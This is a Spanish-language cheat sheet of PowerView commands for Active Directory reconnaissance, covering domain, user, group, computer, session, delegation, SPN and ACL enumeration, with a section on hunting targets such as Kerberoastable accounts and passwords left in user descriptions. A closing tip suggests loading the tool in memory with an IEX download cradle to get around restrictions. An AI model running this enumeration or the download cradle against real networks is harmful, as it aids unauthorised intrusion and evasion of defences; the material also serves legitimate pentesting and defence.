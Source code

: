 ## 🧠 Importar PowerView

```powershell
# Importar el módulo
Import-Module .\PowerView.ps1
```

---

## 🏢 Información del Dominio

```powershell
# Información del dominio actual
Get-Domain

# Controladores de dominio
Get-DomainController

# Políticas del dominio
Get-DomainPolicy

# Forest actual
Get-Forest

# Trusts (confianzas entre dominios)
Get-DomainTrust

# Obtener Dominio

Get-NetDomain
```

---

## 👤 Usuarios

```powershell
# Listar todos los usuarios
Get-DomainUser

# Información detallada de un usuario específico
Get-DomainUser -Identity juanperez

# Buscar usuarios con contraseñas no expiran
Get-DomainUser -Properties "PasswordNeverExpires" | Where-Object {$_.PasswordNeverExpires -eq "True"}

# Buscar usuarios con la opción "No puede cambiar contraseña"
Get-DomainUser -Properties "CannotChangePassword" | Where-Object {$_.CannotChangePassword -eq "True"}

# Enumerar Usuarios especificos

Get-NetUser

Get-NetUser | select cn

Get-NetUser | select cn,pwdlastset,lastlogon
```

---

## 👥 Grupos

```powershell
# Listar todos los grupos
Get-DomainGroup

# Miembros de un grupo
Get-DomainGroupMember -Identity "Administradores del dominio"

# Buscar grupos con miembros externos (interdominio)
Get-DomainForeignGroupMember

# Listar grupos especificos:
Get-NetGroup <opciones>

Get-NetGroup | select cn

Get-NetGroup "Sales Department" | select member

```

---

## 🗅️ Máquinas del Dominio

```powershell
# Enumerar todos los equipos unidos al dominio
Get-DomainComputer

# Equipos Windows 10
Get-DomainComputer | Where-Object {$_.OperatingSystem -like "*Windows 10*"}

# Equipos con sesiones activas
Get-NetSession -ComputerName <nombre_equipo>
```

---

## 🧑‍💼 Administradores de Máquina / Sesiones

```powershell
# Administradores locales de una máquina remota
Get-NetLocalGroup -ComputerName <nombre_equipo>

# Usuarios con sesión activa en un equipo remoto
Get-NetLoggedon -ComputerName <nombre_equipo>

# Ver usuarios que han iniciado sesión remotamente (sesiones SMB)
Get-NetSession -ComputerName <nombre_equipo>
```

---

## 🧬 Delegación y SPNs

```powershell
# Cuentas que tienen SPNs (candidatos para Kerberoasting)
Get-DomainUser -SPN

# Delegación sin restricciones
Get-DomainComputer -Unconstrained

# Delegación con restricciones (Resource-Based Constrained Delegation - RBCD)
Get-DomainComputer -TrustedToAuth
```

---

## 🧱 ACLs y permisos

```powershell
# Ver los permisos delegados en una OU
Get-DomainObjectAcl -Identity "OU=Marketing,DC=empresa,DC=local" -ResolveGUIDs

# Ver permisos en un usuario/grupo específico
Get-ObjectAcl -SamAccountName juanperez -ResolveGUIDs
```

---

## 📍 Buscar Objetivos Interesantes

```powershell
# Usuarios con posibles contraseñas en descripciones
Get-DomainUser -Properties description | Where-Object { $_.description -like "*pass*" }

# Buscar usuarios con propiedad "adminCount" (indica pertenencia a grupos privilegiados)
Get-DomainUser -Properties adminCount | Where-Object { $_.adminCount -eq 1 }

# Enumerar GPOs del dominio
Get-DomainGPO

# Buscar GPOs linkeadas a OUs específicas
Get-DomainOU -Properties gplink
```

---

## 💡 Tips

- Bajo restricciones, ejecutar PowerView de forma "reflectiva" (sin importar el módulo directamente) usando técnicas como `Invoke-Expression` o `IEX (New-Object Net.WebClient).DownloadString(...)`.
- Uso de `-SearchBase` para limitar el scope de búsqueda a una OU específica.
- Uso de `-LDAPFilter` para búsquedas más precisas.


